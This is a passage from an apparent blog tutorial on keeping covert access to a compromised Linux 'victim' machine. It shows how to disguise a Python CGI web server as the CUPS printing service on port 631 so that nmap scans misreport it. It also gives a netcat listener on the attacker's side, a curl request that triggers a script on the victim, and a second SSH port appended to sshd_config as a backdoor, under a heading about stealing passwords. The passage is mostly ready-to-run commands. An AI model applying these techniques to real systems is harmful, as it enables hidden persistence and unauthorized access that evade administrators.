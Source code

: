 # /usr/bin/cups -m CGIHTTPServer 631
{% endhighlight %}

If you would NMAP victim's computer with default options it would look like ipp(CUPS) service is running

{% highlight shell %}
# nmap -p 631 [victim ip address]
PORT    STATE SERVICE
631/tcp open  ipp
{% endhighlight %}

In attacker's computer listen 51920 port using Netcat and send HTTP request to malicious site

{% highlight shell %}
# nc -l -p 51920
# curl 'http://[victim ip address]:631/cgi-bin/index.py'
{% endhighlight %}

# SSH tricks and stealing passwords

## SSH listening different port using reverse shell

Add PORT 2222 end of the /etc/ssh/sshd_config

{% highlight shell %}
# echo PORT 2222 >> /etc/ssh/sshd_config
{% endhighlight %}

Restart SSH daemon

{% highlight shell %}
# service ssh restart
{% endhighlight %}

Now you can take SSH to port 2222

{% highlight shell %}
# ssh [username]@[victim ip address] -p 2222
{% endhighlight %}

## SSH Public Key Authentication
